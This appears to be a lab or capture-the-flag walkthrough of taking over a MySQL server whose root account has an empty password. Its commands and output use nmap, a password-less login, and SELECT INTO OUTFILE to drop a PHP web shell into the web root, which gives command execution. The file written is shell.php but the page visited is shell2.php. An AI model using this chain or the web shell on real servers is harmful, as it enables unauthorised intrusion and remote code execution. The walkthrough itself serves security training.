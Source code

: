 # RCE mysql

We find a webserver running via nmap on port 80

Find nmap script for mysql
```
root@attackdefense:~# ls -l /usr/share/nmap/scripts |grep mysql
-rw-r--r-- 1 root root  6634 Jan  9  2019 mysql-audit.nse
-rw-r--r-- 1 root root  2977 Jan  9  2019 mysql-brute.nse
-rw-r--r-- 1 root root  2945 Jan  9  2019 mysql-databases.nse
-rw-r--r-- 1 root root  3263 Jan  9  2019 mysql-dump-hashes.nse
-rw-r--r-- 1 root root  2020 Jan  9  2019 mysql-empty-password.nse
-rw-r--r-- 1 root root  3447 Jan  9  2019 mysql-enum.nse
-rw-r--r-- 1 root root  3482 Jan  9  2019 mysql-info.nse
-rw-r--r-- 1 root root  3714 Jan  9  2019 mysql-query.nse
-rw-r--r-- 1 root root  2811 Jan  9  2019 mysql-users.nse
-rw-r--r-- 1 root root  3265 Jan  9  2019 mysql-variables.nse
-rw-r--r-- 1 root root  6977 Jan  9  2019 mysql-vuln-cve2012-2122.nse
```

Run the script
```
root@attackdefense:~# nmap --script mysql-empty-password -p 3306 192.75.53.3
Starting Nmap 7.70 ( https://nmap.org ) at 2021-04-30 19:02 IST
Nmap scan report for target-1 (192.75.53.3)
Host is up (0.000044s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-empty-password: 
|_  root account has empty password
MAC Address: 02:42:C0:4B:35:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
```

Logging in without password
```
root@attackdefense:~# mysql -u root -h 192.75.53.3
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 6
Server version: 5.5.56-log MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

Try to write a file - success
```
MySQL [(none)]> select 'Hello world' into outfile '/tmp/temp' from mysql.user limit 1;
Query OK, 1 row affected (0.001 sec)
```

Write php RCE backdoor
```
MySQL [(none)]> select '<?php $output=shell_exec($_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1;
Query OK, 1 row affected (0.001 sec)
```

We visit the path `/shell2.php?cmd=id` and we get code exec - `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
